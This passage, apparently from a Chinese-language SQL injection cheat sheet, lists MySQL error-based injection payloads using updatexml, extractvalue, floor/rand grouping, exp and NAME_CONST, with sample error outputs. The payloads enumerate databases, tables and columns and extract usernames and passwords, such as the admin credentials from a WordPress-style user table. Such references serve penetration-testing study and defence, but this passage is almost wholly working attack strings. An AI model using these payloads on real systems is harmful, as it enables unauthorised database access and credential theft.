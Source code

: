 ### 7.2 常用函数

#### 7.2.1 updatexml

> updatexml 第二个参数需要传入的是 Xpath 格式的字符串。输入不符合，将参数值返回并报错。
>
> 报错长度最大为 32 位

```sql
--显示当前数据库
updatexml(1,CONCAT(0x7e, database()),1)

--显示所有数据库
updatexml(1,CONCAT(0x7e,(select schema_name FROM INFORMATION_SCHEMA.SCHEMATA limit x,1), 0x7e),1)

--获取表名
updatexml(1,CONCAT(0x7e,(select table_name from information_schema.tables where table_schema="sectest" limit x,1), 0x7e),1)

updatexml(1,make_set(3,'~',(select group_concat(table_name) from information_schema.tables where table_schema=database())),1)
--获取列名
updatexml(1,CONCAT(0x7e,(select column_name from information_schema.COLUMNS where table_name="wp_user_" limit 1,1), 0x7e),1)

updatexml(1,make_set(3,'~',(select group_concat(column_name) from information_schema.columns where table_name="users")),1)

--获取数据
updatexml(1,CONCAT(0x7e,(select username from wp_user_ limit 0,1), 0x7e),1)

updatexml(1,CONCAT(0x7e,(select password from wp_user_ where username="admin" limit 0,1), 0x7e),1)

updatexml(1,CONCAT(0x7e,(select GROUP_CONCAT(username, 0x3a, password) from wp_user_ where id=1), 0x7e),1)

updatexml(1,make_set(3,'~',(select data from users)),1)#
```



#### 7.2.2 floor 显错注入

```sql
and (select 1 from (select count(*), concat(user(), floor(rand(0)*2))x from information_schema.tables group by x)a)

and (select 1 from (select count(*), concat((select group_concat(username,0x3a,password) from wp_user_ where id=1), floor(rand(0)*2))x from information_schema.tables group by x)a)
```

#### 7.2.3 其它显错注入

```sql
and extractvalue(1,concat(0x7e,(select database())))
//1105 - XPATH syntax error: '~sectest', Time: 0.000000s

and exp(~(select * from (select user())a)) // mysql5

union select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))a;
//1060 - Duplicate column name '5.7.23', Time: 0.000000s
```
